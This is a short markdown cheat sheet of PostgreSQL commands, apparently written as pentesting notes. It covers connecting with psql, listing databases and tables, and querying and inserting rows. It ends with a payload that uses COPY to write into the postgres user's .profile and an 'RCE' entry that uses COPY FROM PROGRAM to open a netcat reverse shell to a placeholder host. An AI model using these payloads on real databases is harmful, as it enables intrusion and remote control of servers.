 ```yaml
---
title: "Postgresql"
date: 2024-7-9
tags: ["postgresql", "database"]
---
```


### Connect

```console
psql -h 127.0.0.1 -U <USER> -p 5432 -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

### Basic

```console
# Show databases
\list
```

```console
# Use database
\connect <DB_NAME>
```

```console
# Show tables in current database
\dt
```

```console
# Dump data from table
select * from <TABLE_NAME>;
```

```console
# Insert data into table (e.g)
insert into <TABLE_NAME> (username, password, role) values ('user', 'password', 'admin');
```

```console
# Write text
copy (select '<STRING>') to '/var/lib/postgresql/.profile';
```

```console
# Exit
\q
```

---

### RCE

```console
# Only superuser
CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM 'nc -e /bin/bash <LOCAL_IP> <LOCAL_PORT> &'
```